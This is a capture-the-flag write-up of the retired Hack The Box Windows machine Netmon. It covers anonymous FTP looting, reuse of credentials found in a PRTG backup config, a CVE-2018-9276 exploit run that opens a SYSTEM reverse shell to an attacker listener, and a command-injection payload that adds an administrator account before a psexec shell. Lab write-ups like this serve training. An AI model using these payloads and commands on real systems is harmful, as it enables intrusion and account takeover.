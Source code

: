 # Netmon - Windows, easy (10.10.10.152) 👹

### Enumeration
```
ORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### User flag
Just connect using ftp to the server and enter in \Users\Public to get file `user.txt` (just type `get user.txt` to download a copy).

### Privesc
For this part I have checked the website and here I could notice that it is hosting `PRTG Network Monitor 18.1.37.13946` and we are presented with a loging form.
Looking for exploits online there's not much we can do for now since they all require credentials.

My guess is to check the common files of PRTG through ftp.
[Here](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) we can see some folders and files that could be useful for us.
In particular, `%ALLUSERSPROFILE%\Application data\Paessler\PRTG Network Monitor` is the data folder where we can check for configuration files.
In fact, a file that could be useful is `PRTG Configuration.old` which is the backup of previous version of monitoring configuration.

Login again as anynimous user using ftp and then in `\Users` type `ls -al` otherwise some folders and files are not shown.
```
ftp> ls -al
229 Entering Extended Passive Mode (|||50522|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
09-10-22  04:07PM       <DIR>          Public
```

Now enter in `\All Users\Paessler\PRTG Network Monitor` and get file `PRTG Configuration.old`. Unfortunately here there's nothing, but in `PRTG Configuration.old.bak` we can notice the following credentials:
```
<!-- User: prtgadmin -->
PrTg@dmin2018
```

However the credentials did not work, but thinking at the situation, the file from which we obtained the credentials is an old backup, ending in 2018, but the machine
was released on HTB on `02 Mar 2019`, so, trying with 2019 instead of 2018 allows us to access correctly to the PRTG Dashboard as System Administrator!

At this point we can utilize the exploits found previously since we have a valid username and password.
In particular, I found [CVE-2018-9276](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276) that allows us to exploit an OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.
I used the following [script](https://github.com/A1vinSmith/CVE-2018-9276):
```
kali@kali:~/HackTheBox/retired/Windows/easy/Netmon/CVE-2018-9276$ ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.13 --lport 4444 --user prtgadmin --password PrTg@dmin2019

nc -nlvp 4444
C:\Windows\system32>whoami
whoami
nt authority\system
```

### Manual privesc
[This](https://www.codewatch.org/blog/?p=453) blog post about command injection in PRTG explain how to perform command injection in the parameter field of the notifications configuration with some of the default Demo scripts.

After login, enter in `Setup > Account Settings > Notifications`, click the blue cross on the right and click on `Add new notification`.
Following the blog post, scroll down to `Execute Program` and click on it.
For the `Program File` use `Demo exe notification - outfile.ps1` and then in field `Parameter` add `test.txt;net user hollow p3nT3st! /add;net localgroup administrators hollow /add` where the second part is not present on the blog post, but I needed it in order to add my new user to adminsitrators group.

At this point save the notification, click the button on the right (pen in a square) and click the bell icon to send test notification.
We can check if we have access by using:
```
kali@kali:~$ smbmap -H 10.10.10.152 -u pentest -p "p3nT3st!"
[+] IP: 10.10.10.152:445        Name: 10.10.10.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
and we have it!

To get a shell we can use `psexec.py`:
```
kali@kali:~$ sudo psexec.py 'hollow:p3nT3st!@10.10.10.152'
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file tLYZnnku.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service VhkJ on 10.10.10.152.....
[*] Starting service VhkJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Done ✔️
